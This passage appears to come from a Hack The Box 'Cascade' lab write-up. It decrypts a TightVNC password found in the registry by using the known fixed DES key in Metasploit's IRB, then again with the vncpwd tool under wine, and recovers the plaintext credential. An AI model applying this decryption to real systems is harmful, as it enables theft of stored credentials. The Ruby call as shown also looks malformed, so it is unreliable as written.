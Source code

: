 Seems like the server in use is `TightVNC`. Furthermore, there is an encrypted password: `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`.

### Extracting the VNC-password

We have multiple ways to decrypt the VNC-password. According to this [GitHub](https://github.com/frizb/PasswordDecrypts), we can decrypt the password by using a fixed key of `\x17\x52\x6b\x06\x23\x4e\x58\x07`.

```ruby
msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> 
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt["6BCF2A4B6E5ACA0F"].pack('H*'), fixedkey
=> "sT333ve2"
```

We can also use this [implementation](http://aluigi.org/pwdrec/vncpwd.zip). We can either run this in windows or use wine to emulate a windows environment.

Using windows:

![Decrypting pw](/assets/htb/Cascade/decrypt.png)

Using wine on linux:

```bash
root@darkness:~# wine vncpwd.exe 6BCF2A4B6E5ACA0F

*VNC password decoder 0.2.1
by Luigi Auriemma
e-mail: aluigi@autistici.org
web:    aluigi.org

- your input password seems in hex format (or longer than 8 chars)

  Password:   sT333ve2

  Press RETURN to exit
```
